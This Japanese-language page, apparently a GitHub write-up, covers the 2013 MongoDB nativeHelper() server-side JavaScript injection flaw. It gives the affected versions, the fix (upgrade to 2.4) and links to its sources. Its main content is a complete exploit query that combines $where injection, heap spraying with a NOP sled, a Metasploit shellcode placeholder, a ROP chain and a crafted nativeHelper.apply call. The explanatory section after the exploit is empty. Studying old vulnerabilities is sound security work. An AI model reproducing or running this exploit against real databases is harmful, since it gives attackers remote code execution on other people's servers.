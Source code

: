 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

一番簡単なのはMongoDB 2.4へのバージョンアップです。  

## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

## 何が問題？




